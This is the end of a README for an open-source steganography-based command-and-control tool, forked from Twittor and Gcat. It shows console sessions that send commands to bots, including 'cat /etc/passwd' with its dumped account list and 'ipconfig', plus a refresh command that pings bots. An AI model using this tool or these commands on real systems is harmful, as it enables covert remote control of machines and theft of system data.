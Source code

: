 ```
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:107:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:109:116:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:110:117::/var/spool/postfix:/bin/false
dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
haproxy:x:113:121::/var/lib/haproxy:/bin/false
proftpd:x:114:65534::/run/proftpd:/bin/false
ftp:x:115:65534::/srv/ftp:/bin/false

```

- Refresh results

In order to retrieve new bots/command outputs but also force the client to refresh the results, use the ```refresh``` command.

```
C&C console > refresh
[+] Sending command to retrieve alive bots
[+] Downloading image from Cloud Service...
[+] Uploaded image to Cloud Service
[+] Steganography applied, image saved
[+] Sleeping 10 secs to wait for bots

```

This will send a ```PING``` request and wait 10 seconds for them to answer.

- Retrieve previous commands

```
C&C console > commands
631f4ee7328244b8b462876e1f8dd753: 'cat /etc/passwd' on 04:00:72:3F:D6:98
97ee81e0647a4f248ac47c68e8b25b88: 'ipconfig' on 04:D6:27:72:A3:E9
C&C console > 

```

TODO 
=====

Write some self written code to avoid external libraries (steghide) and use some code like http://blog.brian.jp/python/png/2016/07/07/file-fun-with-pyhon.html

Project is entirely open source and released under MIT license.

Fork the project, contribute, submit pull requests, and have fun. 

If you find a bug, open an issue on Github and/or ping me on [Twitter](https://twitter.com/1_mod_m/).


Thanks 
=====
Thanks and feel free to check the [Twittor](https://github.com/PaulSec/twittor) and [Gcat](https://github.com/byt3bl33d3r/gcat) projects from [PaulWebSec](https://twitter.com/PaulWebSec) and [byt3bl33d3r](https://twitter.com/byt3bl33d3r) from which I forked the project.


Output
======
[![cast](https://asciinema.org/a/4oo26ixuqfzyknztyamw8qgdw.png)](https://asciinema.org/a/4oo26ixuqfzyknztyamw8qgdw?autoplay=1)

![cast](https://asciinema.org/a/4oo26ixuqfzyknztyamw8qgdw?autoplay=1 "cast")



